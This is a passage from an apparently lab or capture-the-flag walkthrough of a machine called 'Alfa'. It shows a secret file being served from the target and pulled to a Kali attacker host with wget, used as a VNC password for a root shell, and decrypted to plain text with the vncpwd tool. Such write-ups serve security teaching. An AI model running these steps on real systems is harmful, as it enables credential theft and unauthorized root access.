 ```bash
thomas@Alfa:~$ ls -la   
...
-rwxrwxrwx 1 root   root     16 dic 17  2020 .remote_secret 
...
```

We start a web server with python on target machine.

```bash
thomas@Alfa:~$ python3 -m http.server
```

We download it to the attacking machine with wget.

```bash
root@kali:~$ wget 192.168.179.167:8000/.remote_secret
```

## Privile Escalation
### Access via VNC

We connect to VNC using the **.remote_secret** file as password, and we have access to a root shell.

```bash
root@kali:~$ vncviewer -passwd .remote_secret 127.0.0.1:4444
```

![](/assets/images/alfa/screenshot-4.png)

To know the password in plain text we can use VNC password decrypter, for this we download the following repository, compile it and execute it, as shown below:

```bash
root@kali:~$ git clone https://github.com/jeroennijhof/vncpwd
Cloning into 'vncpwd'...
remote: Enumerating objects: 28, done.
remote: Total 28 (delta 0), reused 0 (delta 0), pack-reused 28
Receiving objects: 100% (28/28), 22.15 KiB | 9.00 KiB/s, done.
Resolving deltas: 100% (9/9), done.
root@kali:~$ cd vncpwd 
root@kali:~/vncpwd$ make
gcc -Wall -g -o vncpwd vncpwd.c d3des.c
root@kali:~/vncpwd$ ./vncpwd ../.remote_secret 
Password: k!LL3rSs
```
